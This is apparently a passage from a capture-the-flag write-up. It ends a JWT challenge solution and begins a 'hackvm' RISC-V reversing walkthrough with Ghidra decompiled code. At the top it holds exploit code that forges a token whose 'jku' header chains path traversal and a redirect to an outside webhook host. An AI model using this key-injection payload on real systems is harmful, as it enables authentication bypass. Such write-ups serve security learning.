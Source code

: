 ```python
            "jku": "http://127.0.0.1:4000/.well-known/jwks.json/../../load/https%3A%2F%2Fwebhook.site%2Ff4818a3c-04b0-43f1-9605-08c08028711a",
            "kid": "enQAZcxKt8lUSgIU2yfcCFVWgpONCwoq7ePsqYgfh7Y"
        }
    )

r = get("https://hackscope.hackxgpt.com/answers", headers = {"Authorization": "Bearer " + jwt})
print(r.json()["flag"])
```

## hackvm
***Written by <a target="_blank" href="https://github.com/kosinw">kosinw</a>***

> Prompt: As nature's engineers, beavers love all things (reverse) engineering, including reduced instruction set computers! Now the beavers by your local dam are excited to show you their new RISC virtual machine & reversing challenge!

We're given a tar file with two binaries, a 32-bit RISCV executable `puzzle1`, and a x86 binary `vm` to execute the RISCV program. Executing the program with `./vm puzzle1`, we're asked to input a passphrase.

```bash
> ./vm puzzle1

          .="   "=._.---.
        ."         c ' Y'`p                 welcome to the BEAVER
       /   ,       `.  w_/             reduced instruction set computer
   jgs |   '-.   /     /
 _,..._|      )_-\ \_=.
`-....-'`------)))`=-'"`'"

[*] remember to submit the flag, not the passphrase on the command center!
[*] please enter the passphrase: hello
[!] sorry, login failed!
```

Let's decompile `puzzle1` in Ghidra to get a better idea of what's going on:

```c
undefined4 main(void)
{
  size_t sVar1;
  int iVar2;
  undefined4 uVar3;
  char acStack_91 [137];

  // ... //

  printf("[\x1b[32m*\x1b[0m] please enter the passphrase: ");
  gets(acStack_91 + 1);
  sVar1 = strlen(acStack_91 + 1);
  acStack_91[sVar1] = '\0';
  sVar1 = strlen(acStack_91 + 1);
  if ((sVar1 == 0x2f) && (iVar2 = memcmp(acStack_91 + 1,password,0x2f), iVar2 == 0)) {
    win(acStack_91 + 1);
    return 0;
  }
  uVar3 = lose();
  ecall();
  return uVar3;
}
```
